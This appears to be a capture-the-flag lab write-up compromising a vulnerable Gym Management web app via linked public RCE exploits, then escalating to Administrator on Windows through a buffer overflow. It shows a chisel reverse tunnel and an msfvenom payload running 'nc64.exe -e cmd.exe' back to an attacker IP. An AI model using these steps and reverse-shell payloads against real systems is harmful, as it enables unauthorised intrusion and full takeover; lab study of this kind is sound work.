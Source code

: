 The website is being run by a vulnerable version of gym management. Using the following tool we can gain RCE: https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE.git
![[Pasted image 20240425202150.png]]

The payload didn't get a nice shell so we used msfconsole exploit from here: https://github.com/Zeop-CyberSec/gym_mgmt_system_unauth_rce

# Windows Priv Esc
Once you are on the box you see a interesting file in the downloads of shaun which you find to be vulnerable to buffer overflow. You then need to portforward the process it listens on 8888.

## Portforwarding with chisel

### Attack Host
```shell
─$ chisel server -p 9999 --reverse
2024/04/26 01:59:44 server: Reverse tunnelling enabled
2024/04/26 01:59:44 server: Fingerprint cfIv3SG+tVEk98rrUApFLkcNFuIxaLvrLQWj81+DH9Y=
2024/04/26 01:59:44 server: Listening on http://0.0.0.0:9999
2024/04/26 02:01:12 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/04/26 02:01:12 server: session#1: tun: proxy#R:8888=>8888: Listening
```

### Windows Victim
```powershell
PS C:\xampp\htdocs\gym\upload> .\chisel.exe client 10.10.14.3:9999 R:8888:127.0.0.1:8888

.\chisel.exe client 10.10.14.3:9999 R:8888:127.0.0.1:8888
2024/04/26 07:01:56 client: Connecting to ws://10.10.14.3:9999
2024/04/26 07:01:56 client: Connected (Latency 25.3646ms)

```

Once you have setup the port forward you need to download the exploit from https://www.exploit-db.com/raw/48389
Replace the default payload with the following:
```shell
─$ msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc64.exe -e cmd.exe 10.10.14.3 9897' -b '\x00\x0a\x0d' -f python -v payload
```
Then just setup a netcat listener and hit run and you get Administrator